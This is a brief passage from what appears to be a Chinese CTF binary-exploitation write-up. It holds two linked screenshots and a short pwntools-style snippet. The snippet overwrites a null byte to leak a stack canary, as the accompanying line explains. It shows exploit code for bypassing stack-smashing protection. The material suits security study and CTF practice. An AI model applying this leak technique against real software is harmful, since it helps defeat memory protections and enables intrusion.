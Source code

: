 [![](assets/1706146504-6ec856b86102de3217ff41832ca7234b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233651-e5cf3108-b872-1.png)

[![](assets/1706146504-ea463d9a29ea41207181f3ad34f8f2bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233656-e89afa34-b872-1.png)  
这里直接覆盖 00 字节然后泄露 canary

```plain
s('a'*0x19)
r(0x18+6)
canary=u64(r(8))-0x61
leak('canary ',canary)
```
